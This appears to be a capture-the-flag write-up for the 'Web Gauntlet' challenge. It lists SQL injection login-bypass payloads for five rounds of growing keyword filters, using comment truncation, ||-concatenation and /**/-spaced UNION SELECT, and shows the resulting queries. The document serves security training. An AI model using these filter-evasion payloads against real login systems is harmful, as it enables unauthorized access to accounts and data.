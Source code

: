 
Web Gauntlet
--
`SQL injection`

### Round1
+ Round1: or
```input=
user = admin'--
password = <123>
```

### Round2
+ Round2: or and like=--
```input=
user= admin' /*
password=123
```

### Round3
+ Round3: or and = like > < --
```input=
user= admin';
password=123
```

### Round4
+ Round4: or and = like > < -- admin

+ use ||
```input=
user= ad'||'min';
password=123
```
+ sql
```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='ads'
```
+ use union
```input
user = 123'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;
```
+ sql
```sql
SELECT * FROM users WHERE username='mregra'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1; AND   password='pass'
```
### Round5
+ Round5: or and = like > < -- union admin
+ union:

```input=
user= ad'||'min';
password=123
```
